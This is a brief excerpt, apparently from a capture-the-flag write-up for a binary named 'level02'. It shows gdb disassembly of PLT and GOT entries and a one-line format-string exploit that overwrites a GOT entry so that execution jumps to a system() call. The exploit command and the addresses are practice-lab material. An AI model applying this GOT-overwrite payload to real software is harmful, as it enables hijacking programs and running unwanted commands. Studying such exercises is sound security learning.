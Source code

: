>   0x0000000000400a80 <+620>:	callq  0x4006c0 <printf@plt>
>   0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
>   0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
>   0x0000000000400a8f <+635>:	mov    $0x0,%eax
>   0x0000000000400a94 <+640>:	leaveq 
>   0x0000000000400a95 <+641>:	retq   
>   0x0000000000400a96 <+642>:	lea    -0x70(%rbp),%rax
>   0x0000000000400a9a <+646>:	mov    %rax,%rdi
>   0x0000000000400a9d <+649>:	mov    $0x0,%eax
>   0x0000000000400aa2 <+654>:	callq  0x4006c0 <printf@plt>
>   0x0000000000400aa7 <+659>:	mov    $0x400d3a,%edi
>   0x0000000000400aac <+664>:	callq  0x400680 <puts@plt>
>   0x0000000000400ab1 <+669>:	mov    $0x1,%edi
>   0x0000000000400ab6 <+674>:	callq  0x400710 <exit@plt>

>(gdb) disas puts
>Dump of assembler code for function puts@plt:
>0x0000000000400680 <+0>:	jmpq   *0x200b5a(%rip)        # 0x6011e0 <puts@got.plt>
>0x0000000000400686 <+6>:	pushq  $0x1
>0x000000000040068b <+11>:	jmpq   0x400660
>End of assembler dump.

>(gdb) disas exit
>Dump of assembler code for function exit@plt:
>0x0000000000400710 <+0>:	jmpq   *0x200b12(%rip)        # 0x601228 <exit@got.plt>
>0x0000000000400716 <+6>:	pushq  $0xa
>0x000000000040071b <+11>:	jmpq   0x400660
>End of assembler dump.

`0x0000000000400a85 = 4196997`

```bash
{ python -c 'print("%4196997x" + "%8$n")'; python -c 'print("\x20\x0b\x12")'; } | ./level02
```

